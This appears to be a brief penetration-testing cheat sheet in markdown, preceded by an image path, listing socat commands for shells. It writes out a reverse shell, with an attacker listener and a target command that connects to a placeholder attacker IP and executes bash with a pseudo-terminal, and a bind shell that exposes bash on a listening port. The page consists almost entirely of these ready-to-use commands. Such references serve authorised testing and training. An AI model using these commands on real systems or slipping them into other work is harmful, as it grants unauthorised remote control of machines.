 # Socat

## Reverse Shell

- Shell handler (attacker)

`$ socat tcp-listen:<PORT>,reuseaddr,fork file:`tty`,raw,echo=0`

- Connect to attacker

`$ socat tcp:<attacker_IP>:<PORT> exec:bash,pty,stderr,setsid,sigint,sane`

## Bind Shell

- Shell handler (target)

```
$ socat tcp-listen:<PORT>,reuseaddr,fork exec:bash,pty,stderr,setsid,sigint,sane

$ socat file:`tty`,raw,echo=0 tcp:<target_IP>:<PORT>
```